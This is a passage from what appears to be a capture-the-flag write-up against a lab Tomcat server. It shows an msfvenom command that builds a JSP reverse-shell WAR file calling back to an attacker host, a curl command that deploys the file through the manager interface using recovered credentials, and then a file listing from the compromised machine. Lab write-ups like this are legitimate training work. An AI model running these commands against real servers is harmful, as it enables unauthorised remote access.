 ## 7 - Lets login

Nothing usefull because it can only access 
```
manager/text
host-manager/html
```
## 8 - Roles

From the manager-app documentation (we do not have the html but we have the script which can be used in the terminal)
```
To support these capabilities, Tomcat includes a web application (installed by default on context path /manager) that supports the following functions:
- Deploy a new web application from the uploaded contents of a WAR file.
```


Well, lets check how to create a war file with a shell inside it.
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

Now that we have a shell in .WAR format we just need to know how to upload it
<br>
FROM DOCUMENTATION
```
http://localhost:8080/manager/text/deploy?path=/foo
```

Lets craft a curl request

```
-u : <user:password> Server user and password
-T <file> :  Transfer local FILE to destination

NOTE: need to be single quotes

CMD: curl -u 'tomcat':'$3cureP4s5w0rd123!' -T waza_shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/waza_shell'
```

## 9 - get access


just look around<br>
Found files at /var/www/html/files

```
-rw-r--r-- 1 ash  ash  8716 Jun 16 13:42 16162020_backup.zip (lets get this)
drwxr-xr-x 2 root root 4096 Jun 16 20:13 archive (EMPTY)
drwxr-xr-x 2 root root 4096 Jun 16 20:13 revoked_certs (EMPTY)
-rw-r--r-- 1 root root 6507 Jun 16 11:25 statement (THE NEWS.php statement)
```
